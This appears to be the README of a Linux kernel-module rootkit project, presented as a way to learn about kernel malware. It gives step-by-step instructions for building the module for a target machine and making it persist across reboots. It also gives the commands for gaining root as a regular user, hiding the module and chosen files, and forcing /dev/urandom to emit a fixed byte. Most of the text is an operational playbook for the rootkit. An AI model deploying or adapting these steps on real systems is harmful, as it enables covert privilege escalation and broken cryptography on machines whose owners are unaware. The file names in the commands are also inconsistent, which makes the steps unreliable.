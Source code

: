 
# linux rootkit

this is a kernel module-based rootkit for linux that supports privelige escalation, compromising random number generation, file and directory hiding, and process injection.

this is a project to allow participants to better understand the inner workings of malware at the kernel level and to gain a deeper understanding of the constraints and possibilities of actions in the kernel space.


## Building and Installation

step 1: open up the Makefile and set KDIR to the path of the linux source tree. this should be configured identically to the target machine's kernel, and it must be configured with support for kprobes and ftrace(these are technically not necessary for privelige escalation or toggling the module's visibility, but we haven't incorporated a compile option for only those features yet).

```
KDIR = ~/learning/linux #replace with appropriate path
```
step 2: run the Makefile to compile the kernel module, and copy rootkit_module.ko over to the target machine
```
Make
```

step 3: copy over bash-4.3 and bdoor_common.h to the target machine, and compile Bash by running configure --with-bash-malloc=no and make (to have this work with different versions of Bash, go int bash-4.3/builtins, copy over gibroot.def to the other version's builtin folder, and change its Makefile.in to conform with https://stackoverflow.com/questions/10063417/how-do-i-add-an-internal-command-to-bash)
```
cd bash-4.3
./configure --with-bash-malloc=no
make
```

(extra) step 4: to make the rootkit persistant,  while root in the target machine, move rootkit_module.ko into the folder specified by /lib/modules/$(uname -r)/, and add the line "rootkit_module" to the bottom of /etc/modules. this make kmod load the module upon boot.
```
cp rootkit.ko /lib/modules/$(uname -r)/
echo "rootkit" >> /etc/modules
```


## Run
to load the module, while root run
```
insmod rootkit.ko
```
the module can also be removed with
```
rmmod rootkit.ko
```

now, as a regular user run the compiled bash executable. this will grant you access to the new gibroot builtin
```
cd bash-4.3
./bash
```

## Command Reference

to escalate shell privelige to root, use
```
gibroot root
```

to restore original shell priveliges, use

```
gibroot unroot
```

to hide the kernel module from userspace, use
```
gibroot hmod
```

to restore the kernel module's visibility, use
```
gibroot smod
```

to hide a file(s) or directory(s), use
```
gibroot hide [file(s)]
```

to unhide files, use
```
gibroot show [file(s)]
```

to look at what files are being hidden, use
```
cat /proc/hidden_files
```

to compromise /dev/urandom so it always writes 0x20, use
```
gibroot urand
```

to whitelist processes and users from file hiding, use
```
gibroot wadd [TYPE] [NAME/ID]
```
supported types are PROCNAME,PID,UID,GID


to remove an entry from the whitelist, use
```
gibroot wrem [TYPE] [NAME/ID]
```

to view the entries in the whitelist, use
```
cat /proc/whitelist
```

to change the name of your bash process to something else, use
```
gibroot newname [NAME]
```
names of up to 16 characters are allowed (max length of comm field in a task struct)